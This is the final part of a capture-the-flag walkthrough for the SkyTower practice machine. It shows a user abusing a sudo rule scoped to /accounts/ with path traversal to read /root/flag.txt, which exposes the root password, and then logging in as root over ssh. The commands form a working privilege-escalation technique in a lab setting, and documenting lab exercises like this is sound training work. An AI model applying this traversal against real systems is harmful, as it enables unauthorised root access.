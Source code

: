 ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Sara can run ls and cat as root for the /accounts/ folder

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
sara@SkyTower:/$ sudo cat /accounts/../root/
cat: /accounts/../root/: Is a directory
sara@SkyTower:/$ sudo cat /accounts/../root/flag.txt
Congratz, have a cold one to celebrate!
root password is theskytower
sara@SkyTower:/$ 

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Loggin in as root

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
sara@SkyTower:/$ ssh root@localhost
The authenticity of host 'localhost (::1)' can't be established.
ECDSA key fingerprint is f6:3b:95:46:6e:a7:0f:72:1a:67:9e:9b:8a:48:5e:3d.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added 'localhost' (ECDSA) to the list of known hosts.
root@localhost's password: 
Linux SkyTower 3.2.0-4-amd64 #1 SMP Debian 3.2.54-2 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Jun 20 09:01:28 2014
root@SkyTower:~# id;whoami
uid=0(root) gid=0(root) groups=0(root)
root
root@SkyTower:~# 

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

